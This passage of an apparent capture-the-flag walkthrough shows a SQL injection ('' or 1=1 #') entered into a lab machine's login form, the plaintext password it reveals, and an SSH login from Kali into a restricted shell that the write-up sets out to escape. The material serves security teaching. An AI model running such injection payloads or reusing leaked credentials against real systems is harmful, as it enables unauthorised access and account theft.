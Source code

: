 Something went wrong

<table align="center" bgcolor="#CCCCCC" border="3" cellpadding="0" cellspacing="1" style="width: 500px;"><tbody>
<tr>                 <td><table bgcolor="#FFFFFF" border="2" cellpadding="3" cellspacing="1" style="width: 100%px;"><tbody>
<tr>                                         <td align="center" colspan="3"><b>Member's Control Panel </b></td>                                 </tr>
<tr>                                         <td width="30">Username</td>                                         <td width="6">:</td>      <td width="464"></td>                                 </tr>
<tr>                                         <td width="30">Password</td>                                         <td width="6">:</td>      <td width="464"></td>                                 </tr>
<tr>                                         <td>&nbsp;      
<form action="logout.php" method="link">
<input type="submit" value="Logout" />      </form>
</td>                                         <td></td>                                 </tr>
</tbody></table>
</td>         </tr>
</tbody></table>

**Username:** robert
**Password:** ' or 1=1 #
**Output:**

<table align="center" bgcolor="#CCCCCC" border="3" cellpadding="0" cellspacing="1" style="width: 500px;">        <tbody>
<tr>                 <td><table bgcolor="#FFFFFF" border="2" cellpadding="3" cellspacing="1" style="width: 100%px;">                                <tbody>
<tr>                                         <td align="center" colspan="3"><b>Member's Control Panel </b></td>                                 </tr>
<tr>                                         <td width="30">Username</td>                                         <td width="6">:</td>      <td width="464">robert</td>                                 </tr>
<tr>                                         <td width="30">Password</td>                                         <td width="6">:</td>      <td width="464">ADGAdsafdfwt4gadfga==</td>                                 </tr>
<tr>                                         <td>&nbsp;      
<form action="logout.php" method="link">
<input type="submit" value="Logout" />      </form>
</td>                                         <td></td>                                 </tr>
</tbody></table>
</td>         </tr>
</tbody></table>

We found the credentials for robert! Although it might look like a base64 encoded string, it isn't. You can use those credentials directly to SSH.

_____________________________________________________________________________

## 4\. Escaping restricted (s)hell

```console
root@kali:~/Desktop/dirsearch# ssh robert@192.168.1.69
robert@192.168.1.69's password:
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
robert:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
robert:~$ ls
robert:~$ ls -al
total 24
drwxr-xr-x 2 robert robert 4096 2012-02-04 18:53 .
drwxr-xr-x 5 root   root   4096 2012-02-04 18:05 ..
-rw-r--r-- 1 robert robert  220 2012-02-04 18:05 .bash_logout
```